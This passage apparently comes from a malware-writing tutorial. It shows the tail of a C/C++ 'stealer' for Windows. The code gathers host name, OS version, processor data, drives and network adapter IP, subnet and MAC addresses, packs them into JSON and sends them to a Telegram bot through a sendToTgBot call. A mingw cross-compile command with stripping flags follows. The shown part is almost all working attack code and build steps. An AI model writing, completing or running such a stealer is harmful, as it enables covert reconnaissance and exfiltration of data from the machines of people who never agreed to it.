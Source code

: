 ```cpp

  snprintf(systemInfo, sizeof(systemInfo),
    "Host Name: %s\n"  // Use %s for CHAR
    "OS Version: %d.%d.%d\n"
    "Processor Architecture: %d\n"
    "Number of Processors: %d\n"
    "Logical Drives: %X\n",
    hostName,
    osVersion.dwMajorVersion, osVersion.dwMinorVersion, osVersion.dwBuildNumber,
    sysInfo.wProcessorArchitecture,
    sysInfo.dwNumberOfProcessors,
    drives);

  // Add IP address information
  for (PIP_ADAPTER_INFO adapter = adapterInfo; adapter != NULL; adapter = adapter->Next) {
    snprintf(systemInfo + strlen(systemInfo), sizeof(systemInfo) - strlen(systemInfo),
    "Adapter Name: %s\n"
    "IP Address: %s\n"
    "Subnet Mask: %s\n"
    "MAC Address: %02X-%02X-%02X-%02X-%02X-%02X\n\n",
    adapter->AdapterName,
    adapter->IpAddressList.IpAddress.String,
    adapter->IpAddressList.IpMask.String,
    adapter->Address[0], adapter->Address[1], adapter->Address[2],
    adapter->Address[3], adapter->Address[4], adapter->Address[5]);
  }
  
  char info[8196];
  snprintf(info, sizeof(info), "{\"text\":\"%s\"}", systemInfo);
  int result = sendToTgBot(info);

  if (result == 0) {
    printf("ok =^..^=\n");
  } else {
    printf("nok <3()~\n");
  }

  return 0;
}
```

### demo

Let's check everything in action.     

Compile our "stealer" `hack.c`:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -liphlpapi -lwinhttp
```
